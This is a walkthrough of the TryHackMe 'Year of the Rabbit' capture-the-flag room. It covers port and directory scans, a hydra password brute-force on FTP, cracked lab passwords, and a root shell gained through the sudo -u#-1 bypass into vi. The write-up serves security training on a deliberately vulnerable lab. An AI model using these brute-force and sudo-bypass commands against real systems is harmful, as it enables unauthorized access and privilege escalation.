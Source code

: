 # Year of the Rabbit

**Room Link:** [https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (25) (6).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (30) (1).png" alt=""><figcaption></figcaption></figure>

### Turn off Javascript

```
Enter about:config into the search bar and select Accept the Risk and Continue.
Enter javascript.enabled into the search box at the top of the page.
Select the javascript.enabled toggle to change the value to false.
```

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
strings Hot_Babe.png 
```

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l ftpuser -P passwords.txt ftp://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

## FTP

**Kali**

```
ftp $VICTIM
password: 5iez1wGXKfPKQ
```

<figure><img src="../../.gitbook/assets/image (7) (4) (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Elis creds is encoded with something called Brain fuck. There are tools online to decode it.

**Link:** [https://www.dcode.fr/brainfuck-language](https://www.dcode.fr/brainfuck-language)

<figure><img src="../../.gitbook/assets/image (10) (7).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh eli@$VICTIM
Password: DSpDiM1wAEwid
```

<figure><img src="../../.gitbook/assets/image (13) (4).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
locate s3cr3t
cat cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
```

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su gwendoline
Password: MniVCQVhQHUNI
```

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

## **Privilege escalation**

Mostly followed the link below, we can't run sudo with root as we have (ALL , !root) here. if we had (ALL , ALL) it would be easy to escalate. Adding sudo -u#-1  to infront of the command allows us to bypass this.

**Link:** [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

**Victim**

```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
#While vi is open run:
:!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>
























